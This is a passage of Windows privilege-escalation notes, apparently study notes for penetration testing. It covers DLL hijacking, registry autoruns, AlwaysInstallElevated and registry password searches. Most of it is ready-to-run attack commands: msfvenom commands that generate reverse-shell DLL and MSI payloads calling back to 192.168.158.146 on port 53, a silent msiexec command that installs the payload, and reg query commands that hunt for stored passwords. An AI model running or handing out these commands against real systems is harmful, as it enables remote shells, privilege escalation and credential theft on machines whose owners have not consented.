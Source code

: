 ```zsh
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.158.146 LPORT=53 -f dll -o hijackme.dll
```

## Registry Exploits

### Autoruns

If modifiable can and run with elevated privelges, we can have a root shell

```cmd 
 .\winPEASany.exe quiet applicationsinfo
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 ```
 ```cmd
 .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
### Always Install Elevated

Need 2 things to be elevated
-HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer for the local system
and also for the current user
HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

If any of them is missing you can use this


```cmd
 .\winPEASany.exe quiet windowscreds
or 
 reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Create a new msi reverse shell

```zsh
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.158.146 LPORT=53 -f msi -o reverse.msi
```
```cmd
 msiexec /quiet /qn /i reverse.msi
```

## Passwords

A lot of admins repeat passwords and store it insecurely, it is worth finding them
Windows itself stores a lot of passwords in plaintext and it is worth looking at them

The following command will search registry for keys and values that contain "password"

Manual

```cmd
 reg query HKLM /f password /t REG_SZ /s
 reg query HKCU /f password /t REG_SZ /s

```
Using winpeas as the above prints a lot of results and it is better to look at know locations 
